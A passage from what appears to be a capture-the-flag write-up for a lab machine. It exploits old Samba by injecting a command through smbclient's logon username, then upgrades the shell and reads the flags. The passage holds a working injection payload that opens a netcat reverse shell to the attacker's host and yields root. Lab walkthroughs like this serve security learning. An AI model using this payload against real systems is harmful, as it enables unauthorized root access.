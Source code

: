 Strangely enough the username seems to be getting partially _capitalized???_, which is a problem! The capitalized binary names are not going to be recognized properly!

```
$ smbclient -N //10.10.10.3/tmp

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon '/=`nohup nc -e /bin/sh 10.10.14.17 4445`'
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \>
```

Now weirdly enough, I have to swap back the `'` for `"` to get it to work:

```
smb: \> logon "/=`nohup nc -e /bin/sh 10.10.14.17 4445`"
Password:
```

I'll hit `ENTER` at the prompt, and surely enough, back in the terminal where we set up the listener:

```
$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.3] 56537

id
uid=0(root) gid=0(root)
```

We get a shell as the `root` user!

## Capturing the flag

Whether we established our shell using Metasploit or manually, we can "upgrade" it to a Bash shell with a prompt using Python:

```
python -c 'import pty; pty.spawn("bash")'

root@lame:/#
```

Then to claim our flags:

```
root@lame:/# cat /home/makis/user.txt

a23f537b1f67cce50f4d42cc41******

root@lame:/# cat /root/root.txt

ee2fac6c5e425c755de2640c78******
```
